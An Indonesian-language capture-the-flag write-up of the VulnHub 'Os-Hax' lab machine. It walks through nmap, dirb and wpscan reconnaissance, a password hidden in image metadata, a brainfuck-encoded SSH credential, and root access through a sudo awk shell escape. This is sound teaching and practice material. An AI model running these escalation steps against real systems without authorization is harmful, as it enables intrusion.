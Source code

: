 ```yaml
---
title: "[VulnHub] Os-Hax WriteUp"
date: 2019-04-20T22:14:10+07:00
categories:
  - blog
tags: 
  - vulnhub
  - writeup
  - awk
---
```


## Setup 
Edit file `/etc/hosts` menjadi seperti dibawah agar static web mesin bisa berjalan.
```
#127.0.0.1      localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
#::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

<IP_mesin> localhost
```

Untuk mencari IP mesin bisa dengan menggunakan `nmap` atau `netdiscover`

## Information Gathering
### nmap
`nmap -sV -sC -p- localhost -oN initial.nmap -v`
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 43:0e:61:74:5a:cc:e1:6b:72:39:b2:93:4e:e3:d0:81 (RSA)
|   256 43:97:64:12:1d:eb:f1:e9:8c:d1:41:6d:ed:a4:5e:9c (ECDSA)
|_  256 e6:3a:13:8a:77:84:be:08:57:d2:36:8a:18:c9:09:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 5ECF6AFD7D00CCBE6B3C7AA8FD31BDE8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Hacker_James
MAC Address: 08:00:27:E2:E3:E2 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### dirb
`dirb http://localhost /usr/share/wordlists/dirb/common.txt`
```
---- Scanning URL: http://localhost/ ----
==> DIRECTORY: http://localhost/css/
==> DIRECTORY: http://localhost/html/
==> DIRECTORY: http://localhost/img/
+ http://localhost/index.html (CODE:200|SIZE:3135)
==> DIRECTORY: http://localhost/js/
+ http://localhost/server-status (CODE:403|SIZE:274)
==> DIRECTORY: http://localhost/wordpress/
```

### wpscan
Karena server menjalankan wordpress maka kita bisa coba cari celah wordpress dengan `wpscan`.
`wpcan --url http://localhost/wordpress/`
Namun dari hasil scan dgn menggunakan `wpscan` tidak ditemukan hal yang menarik, server pake wordpress versi terbaru, tema bawaan, dan no plugin.  

Kembali ke ~~laptop~~ `dirb`, buka direktori `/img` 
!['/img'](/assets/images/Os-Hax/img.png){: img_content }
Ada file menarik yaitu `flaghost.png`, download file tsb lalu examine dengan `exiftool`.

### exiftool
Exiftool adalah software open-source berbasis perl untuk membaca, mengedit, dan memanipulasi metadata dari berbagai macam tipe file. [_exiftool.org_](https://exiftool.org/) 
>Metadata is "data that provides information about other data". In other words, it is "data about data.[_wikipedia.org_](https://en.wikipedia.org/wiki/Metadata)

```
Pixels Per Unit X               : 3780
Pixels Per Unit Y               : 3780
Pixel Units                     : meters
Make                            : passw@45
Image Size                      : 387x98
Megapixels                      : 0.038
```

ada string `passw@45` di meta `Make`. *Note*: sebelum menggunakan `exiftool` bisa coba pakai command `strings` terlebih dahulu untuk mengecek apakah ada string yang disematkan ke file gambar tsb.  

Kira-kira apakah teks `passw@45` tersebut ? :thinking: kalo password login ssh dimana usernamenya?, lalu coba ekstrak string dari gambar lain di direktori `/img` tapi ternyata *zonk* :man_facepalming:.  

Lalu entah dapet ilham darimana saya coba untuk masukin teks tersebut ke url bar dan ternyata itu clue direktori :man_facepalming: :man_facepalming: .
![passw](/assets/images/Os-Hax/passw.png){: img_content }  
Nah di dalam direktori tersebut ada file `flag2.txt` dg bahasa brainfuck.
```
i+++++ +++++ [->++ +++++ +++<] >++++ +++++ +++++ +++++ .<+++ +[->- ---<]
>--.- --.<+ +++++ [->-- ----< ]>--- -.<++ +[->+ ++<]> +++++ .<+++ ++[->
+++++ <]>.+ +.+++ +++++ .---- --.<+ ++[-> +++<] >++++ .<+++ ++++[ ->---
----< ]>-.< +++[- >---< ]>--- .+.-- --.++ +.<
```

>Brainfuck is an esoteric programming language created in 1993 by Urban Müller, and is notable for its extreme minimalism. The language consists of only eight simple commands and an instruction pointer. (_wikipedia.org_)[https://en.wikipedia.org/wiki/Brainfuck]

Next copas isi `flag2.txt` ke brainfuck interpreter macam (`copy.sh`)[https://copy.sh/brainfuck/]. Jalankan, dan kita dapat outputnya.. `web:Hacker@4514` 

## Exploitation
### User Flag
`ssh` dengan username dan password diatas lalu kita dapat flag user.
```
web@jax:~$ id
uid=1001(web) gid=1000(uname-a) groups=1000(uname-a)
web@jax:~$ ls
flag3.txt
web@jax:~$ cat flag3.txt 
   ______          ______          ____                 __ 
  / ____/____     /_  __/____     / __ \ ____   ____   / /_
 / / __ / __ \     / /  / __ \   / /_/ // __ \ / __ \ / __/
/ /_/ // /_/ /    / /  / /_/ /  / _, _// /_/ // /_/ // /_  
\____/ \____/    /_/   \____/  /_/ |_| \____/ \____/ \__/  
                                                           

MD5-HASH : 40740735d446c27cd551f890030f7c75
```
Next adalah dengan menjalankan [linenum.sh](https://github.com/rebootuser/LinEnum/) di direktori `/tmp`.

```
[+] We can sudo without supplying a password!
Matching Defaults entries for web on jax:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on jax:
    (root) NOPASSWD: /usr/bin/awk


[+] Possible sudo pwnage!
/usr/bin/awk
```
Dari hasil enumerasi diatas kita menemukan entri `sudoers` yang memungkinkan kita (user `web`) untuk menjalankan perintah `awk` secara `sudo` tanpa perlu memasukkan password.  
Hal itu dapat ditunjukkan dengan membuka '/etc/sudoers' dan melihat user privilege specification untuk user `web`.
`web     ALL= (root) NOPASSWD: /usr/bin/awk` 
Nah berhubung saya gak paham cara penggunaan `awk`, site [gtfobins](https://gtfobins.github.io/gtfobins/awk/) menjadi penyelamat.
`sudo awk 'BEGIN {system("/bin/sh")}'`
Dan kita dapat akses root :smile:
![final](/assets/images/Os-Hax/final.png){: .img_content }

<hr>

Referensi: 
[https://linux.die.net/man/5/sudoers](https://linux.die.net/man/5/sudoers)
[https://gtfobins.github.io](https://gtfobins.github.io)
